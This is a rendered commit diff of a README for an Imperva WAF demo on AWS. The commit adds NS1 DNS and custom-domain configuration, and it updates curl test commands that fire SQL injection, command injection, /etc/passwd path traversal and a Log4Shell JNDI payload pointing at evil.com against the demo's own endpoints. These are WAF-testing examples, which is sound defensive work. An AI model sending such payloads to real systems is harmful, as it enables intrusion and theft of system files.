

Before and after one commit to danielmi73/IMPERVA_VPoP_for_AWS_Demo, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: add detailed NS1 DNS and alternative domain integration guide

````diff
--- a/README.md
+++ b/README.md
@@ -84,5 +116,6 @@ Edit `terraform.tfvars` with your settings:
 ```hcl
-AWS_region              = "us-east-1"
+# AWS Region & Tags
+AWS_region              = "il-central-1" # (or us-east-1, eu-west-1, etc.)
 tag_name                = "imperva-vpop-demo-app"
 tag_owner_email         = "danny.milshtein@thalesgroup.com"
 tag_manager_email       = "manager@thalesgroup.com"
@@ -91,13 +124,39 @@ tag_description         = "vPoP Demo App for AWS"
 tag_environment         = "SE Demo Lab"
 tag_dataclassification  = "THALES GROUP LIMITED DISTRIBUTION"
 
-incapsula_api_id        = "YOUR_API_ID"
-incapsula_api_key       = "YOUR_API_KEY"
-alternative_domain_name = "demo-vpop.yourdomain.com"
+# Imperva Cloud WAF Credentials
+incapsula_api_id        = "YOUR_INCAPSULA_API_ID"
+incapsula_api_key       = "YOUR_INCAPSULA_API_KEY"
+
+# Custom Domain & NS1 DNS Automation
+alternative_domain_name = "vpop-demo.darc-syn.com"
+set_alternative_domain  = true
+ns1_api_key             = "YOUR_NS1_API_KEY"
+ns1_zone                = "darc-syn.com"
 ```
 
-### 2. Initialize and Deploy
-Initialize Terraform:
+#### Option B: Deploy with Default CloudFront Endpoint (Fast Testing)
+In `terraform.tfvars`:
+```hcl
+AWS_region              = "il-central-1"
+tag_name                = "imperva-vpop-demo-app"
+tag_owner_email         = "danny.milshtein@thalesgroup.com"
+tag_manager_email       = "manager@thalesgroup.com"
+tag_team_email          = "cybersec-se-team@thalesgroup.com"
+
+incapsula_api_id        = "YOUR_INCAPSULA_API_ID"
+incapsula_api_key       = "YOUR_INCAPSULA_API_KEY"
+alternative_domain_name = "vpop-demo.darc-syn.com"
+
+# Set to false to test using https://*.cloudfront.net without modifying DNS
+set_alternative_domain  = false
+```
+
+---
+
+### 3. Initialize and Deploy
+
+Initialize Terraform and download providers:
 ```bash
 terraform init
 ```
@@ -107,8 +166,8 @@ Deploy the infrastructure (*Note: using `-parallelism=1` is recommended for Impe
 terraform apply -parallelism=1
 ```
 
-When deployment finishes, Terraform will output:
-- `demo_portal_url`: The CloudFront URL for accessing the demo dashboard.
+When deployment finishes, Terraform outputs:
+- `demo_portal_url`: The entry URL for accessing the demo dashboard.
 - `imperva_site_id`: The ID of your site in the Imperva Console.
 - `imperva_origin_domain`: The CNAME assigned by Imperva.
 - Ready-to-copy cURL test commands.
@@ -117,7 +176,7 @@ When deployment finishes, Terraform will output:
 
 ## 🎯 Demo Scenarios & SE Presentation Guide
 
-Open the `demo_portal_url` in your browser. The application includes live tabs:
+Open the `demo_portal_url` in your browser. The application includes live interactive tabs:
 
 ### 1. OWASP Web Top 10 Demonstration
 | Vulnerability | Attack Vector | Expected Result | Imperva Engine |
@@ -148,16 +207,16 @@ Test blocking directly from your terminal:
 
 ```bash
 # 1. SQL Injection
-curl -i -s "https://YOUR_CLOUDFRONT_DOMAIN/api/vulnerabilities/sqli?query=%27%20OR%20%271%27=%271%27%20--"
+curl -i -s -H "Host: vpop-demo.darc-syn.com" "https://YOUR_CLOUDFRONT_DOMAIN/api/vulnerabilities/sqli?query=%27%20OR%20%271%27=%271%27%20--"
 
 # 2. Command Injection
-curl -i -s "https://YOUR_CLOUDFRONT_DOMAIN/api/vulnerabilities/rce?cmd=%3B%20cat%20%2Fetc%2Fpasswd"
+curl -i -s -H "Host: vpop-demo.darc-syn.com" "https://YOUR_CLOUDFRONT_DOMAIN/api/vulnerabilities/rce?cmd=%3B%20cat%20%2Fetc%2Fpasswd"
 
 # 3. Path Traversal
-curl -i -s "https://YOUR_CLOUDFRONT_DOMAIN/api/vulnerabilities/lfi?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd"
+curl -i -s -H "Host: vpop-demo.darc-syn.com" "https://YOUR_CLOUDFRONT_DOMAIN/api/vulnerabilities/lfi?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd"
 
 # 4. Log4Shell Header Injection
-curl -i -s -H "X-Api-Version: \${jndi:ldap://evil.com/a}" "https://YOUR_CLOUDFRONT_DOMAIN/api/vulnerabilities/log4shell"
+curl -i -s -H "Host: vpop-demo.darc-syn.com" -H "X-Api-Version: \${jndi:ldap://evil.com/a}" "https://YOUR_CLOUDFRONT_DOMAIN/api/vulnerabilities/log4shell"
 ```
 
 ---
````
Also changed, not shown: other parts of README.md (+46 -14 lines).
